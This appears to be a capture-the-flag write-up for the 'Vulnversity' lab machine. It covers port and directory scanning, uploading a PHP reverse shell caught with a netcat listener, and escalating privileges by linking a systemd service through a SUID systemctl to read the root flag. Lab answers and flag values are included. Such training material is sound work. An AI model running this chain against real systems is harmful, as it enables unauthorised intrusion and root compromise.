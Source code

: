 <center> <h1>Vulneversity Write Up</h1> </center>

# Task 1 ⇒ Deploy the machine
IP: ```10.10.255.221```
# Task 2⇒ Reconnaissance
```
┌─[root@parrot]─[/home/alexdos2010m]
└──╼ #nmap -sV -sC 10.10.255.221
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-14 11:11 IST
Nmap scan report for 10.10.255.221
Host is up (0.53s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.3
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 5a:4f:fc:b8:c8:76:1c:b5:85:1c:ac:b2:86:41:1c:5a (RSA)
|   256 ac:9d:ec:44:61:0c:28:85:00:88:e9:68:e9:d0:cb:3d (ECDSA)
|_  256 30:50:cb:70:5a:86:57:22:cb:52:d9:36:34:dc:a5:58 (ED25519)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
3128/tcp open  http-proxy  Squid http proxy 3.5.12
|_http-server-header: squid/3.5.12
|_http-title: ERROR: The requested URL could not be retrieved
3333/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Vuln University
Service Info: Host: VULNUNIVERSITY; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h20m04s, deviation: 2h18m34s, median: 4s
|_nbstat: NetBIOS name: VULNUNIVERSITY, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: vulnuniversity
|   NetBIOS computer name: VULNUNIVERSITY\x00
|   Domain name: \x00
|   FQDN: vulnuniversity
|_  System time: 2021-08-14T01:41:47-04:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-08-14T05:41:48
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 38.79 seconds
```

Scan the box, how many ports are open? `6`

What version of the squid proxy is running on the machine?`3.5.12`

How many ports will nmap scan if the flag **-p-400** was used? `400`

Using the nmap flag **-n** what will it not resolve? `DNS`

What is the most likely operating system this machine is running? `Ubuntu`

What port is the web server running on? `3333`
# Task 3⇒ Locating directories using GoBuster!!
```
┌─[alexdos2010m@parrot]─[~]
└──╼ $gobuster dir -u http://10.10.255.221:3333 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.255.221:3333
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/08/14 11:31:08 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 322] [--> http://10.10.255.221:3333/images/]
/css                  (Status: 301) [Size: 319] [--> http://10.10.255.221:3333/css/]   
/js                   (Status: 301) [Size: 318] [--> http://10.10.255.221:3333/js/]    
/fonts                (Status: 301) [Size: 321] [--> http://10.10.255.221:3333/fonts/] 
/internal             (Status: 301) [Size: 324] [--> http://10.10.255.221:3333/internal/]
                                                                                         
===============================================================
2021/08/14 11:58:22 Finished
===============================================================
```
<!-- ![[form_internal.png]] -->
<img src = 'assets/img/form_internal.png'>
# Task 4⇒ Compromise the webserver
<img src = 'assets/img/burp_intercept.png'>
<!-- ![[burp_intercept.png]] -->
<img src = 'assets/img/intruder.png'>
<!-- ![[intruder.png]] -->
### Reverse PHP Shell:
<img src = 'assets/img/form_internal_phtml.png'>
<!-- ![[form_internal_phtml.png]] -->
[reverse PHP](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

```
┌─[alexdos2010m@parrot]─[~/Downloads]
└──╼ $nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.17.18.32] from (UNKNOWN) [10.10.255.221] 40778
Linux vulnuniversity 4.4.0-142-generic #168-Ubuntu SMP Wed Jan 16 21:00:45 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 03:42:38 up  2:05,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ ls
bin
boot
dev
etc
home
initrd.img
lib
lib64
lost+found
media
mnt
opt
proc
root
run
sbin
snap
srv
sys
tmp
usr
var
vmlinuz
```
<img src = 'assets/img/task4.png'>
<!-- ![[task4.png]] -->
```
$ cd home
$ ls
bill
$ cd bill
$ ls
user.txt
```
`$ cat user.txt 
8bd7992fbe8a6ad22a63361004cfcedb`
# Task 5⇒ Privilege Escalation
```
$ find / -perm -u=s -type f 2>/dev/null
/usr/bin/newuidmap
/usr/bin/chfn
/usr/bin/newgidmap
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/at
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/squid/pinger
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/bin/su
/bin/ntfs-3g
/bin/mount
/bin/ping6
/bin/umount
/bin/systemctl
/bin/ping
/bin/fusermount
/sbin/mount.cifs
$ TF=$(mktemp).service
$ echo '[Service]
> ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF> > 
$ /bin/systemctl link $TF
Created symlink from /etc/systemd/system/tmp.hNU5Ie7Gaj.service to /tmp/tmp.hNU5Ie7Gaj.service.
$ /bin/systemctl enable --now $TF
Created symlink from /etc/systemd/system/multi-user.target.wants/tmp.hNU5Ie7Gaj.service to /tmp/tmp.hNU5Ie7Gaj.service.
```

`
$ cat /tmp/output
a58ff8579f0a9270368d33a9966c7fd5
`